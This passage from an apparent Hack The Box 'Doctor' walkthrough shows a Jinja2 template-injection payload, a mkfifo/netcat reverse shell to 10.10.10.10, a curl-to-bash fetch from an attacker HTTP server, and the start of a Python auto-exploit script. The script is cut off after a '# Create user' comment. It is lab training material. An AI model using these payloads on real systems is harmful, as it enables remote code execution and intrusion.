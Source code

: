 After confirming that a Jinja2 payload should be used, would be possible to get a reverse shell on the box using the following process:

- In a folder in the attacker machine, created a payload file containing the string to be used as payload to get a reverse shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
```
  
- Then host an HTTP server using python3 by running the command below from the same directory as the recently created file.

```bash
sudo python3 -m http.server 80
```
  
- On the portal, created a post containing the following string on the title, obtained from the previously mentioned PayloadsAllTheThings site. This one especially is very interesting for this situation, which allows us to get the **input** parameter from the GET request, so we would be able to change the commands to be issued to the system very easily.

```python
{% raw %}{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}{% endraw %}
```
  
- Started listener using netcat by running the command below, selecting the same port defined in the payload file.

```bash
nc -lnvp 4443
```

- Then made a request to the portal using the archive URL appended by the command I wanted to execute.

```bash
http://doctors.htb/archive?input=curl%20-L%20http://10.10.10.10/payload%20|%20bash
```

- And voilà! A reverse shell was returned :smiley:

![HTB Doctor - Exploit](https://i.imgur.com/j9kreyv.png){: .align-center}

**Bonus** To make it easier to regain an initial foothold, once the user account has a short validity of 20 minutes, I've created this python3 script to help on this task :smiley:. To use it just set up the listener and python web server, then the script will recreate the user, the message and then send a request to get the reverse shell again
{: .notice--info}

```python
#!/usr/bin/python3

import requests

url = 'http://doctors.htb'
username = 'dummy'
password = 'P@ssw0rd'
ip = '10.10.10.10'
email = username+'@doctors.htb'

# Create new session
s = requests.session()

# Make a initial request to get required cookies
r = s.get(url)

# Create user
```
